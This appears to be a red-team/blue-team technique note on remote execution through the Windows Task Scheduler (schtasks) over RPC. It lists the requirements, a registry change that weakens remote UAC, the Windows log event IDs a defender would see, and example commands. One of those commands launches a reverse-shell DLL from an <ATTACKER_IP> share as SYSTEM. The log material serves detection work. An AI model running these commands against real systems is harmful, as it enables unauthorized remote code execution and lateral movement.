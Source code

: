 Table of Contents
=================

* [schtasks (Technique)](#schtasks-technique)
   * [Summary](#summary)
   * [How it works (deeply)](#how-it-works-deeply)
   * [Requirements](#requirements)
   * [Logs](#logs)
      * [Security Logs](#security-logs)
      * [Sysmon Logs](#sysmon-logs)
      * [TaskSchedular Logs](#taskschedular-logs)
         * [Create](#create)
         * [Run](#run)
         * [Delete](#delete)
   * [Remarks](#remarks)
   * [Implementations](#implementations)
   * [References](#references)


schtasks (Technique)
============

## Summary

Windows allows remote Administrators to interact with the task
schedular over RPC.

## How it works (deeply)

...

## Requirements

1. RPC is running
	```bash
	Get-Service RpcSs,RpcEptMapper,DcomLaunch
	```

2. RPC (port 135) and high ports are accessible (through firewall)

3. Administrator permission on the target computer

4. Remote UAC (UAC Over network) disabled if the user chosen to
authenticate with is a **local user** and not a domain user
```bash
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1
# Restart the 'Server' service might be required (I have tested twice on a Windows 10 and it **was not** required)
```

## Logs

#### Security Logs

- 4624, Logon event - Network Logon, Type 3
- 4672, Special Logon (If the user is Administrator)

#### Sysmon Logs

- 1, Process Create - the task's process created by the parent image
`svchost -k netsvcs -p -s Schedule`
- 3, Network connection detected - from the "attacker" source IP
- 11, File created, a file for the task is created in
`C:\Windows\System32\Tasks\<TASK NAME>`


#### TaskSchedular Logs

###### Create
- 106, Task registered - the name of the task is logged

###### Run
- 325, Launch request queued
- 129, Created Task Process
- 100, Task Started
- 200, Action started
- 110, Task triggered by user
- 201, Action completed
- 102, Task completed

###### Delete
- 141, Task registration deleted

## Remarks

*

## Implementations

- schtasks.exe
```bash
# Execute command and dump output to file
schtasks.exe /create /sc ONCE /tn EvilTask /tr "cmd /c dir C:\Windows > C:\output.txt" /st 00:00 /ru System /s <TARGET_IP>

# Execute a reverse shell payload
schtasks.exe /create /sc ONCE /tn EvilTask /tr "rundll32.exe Shell32.dll,ControlRunDLL \\<ATTACKER_IP>\EvilShare\reverse_tcp.dll" /st 00:00 /ru System /s <TARGET_IP>

# Execute the task
schtasks.exe /run /tn EvilTask /s <TARGET_IP>

# Delete the task
schtasks.exe /delete /tn EvilTask /s <TARGET_IP> /f
```

## References

- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks
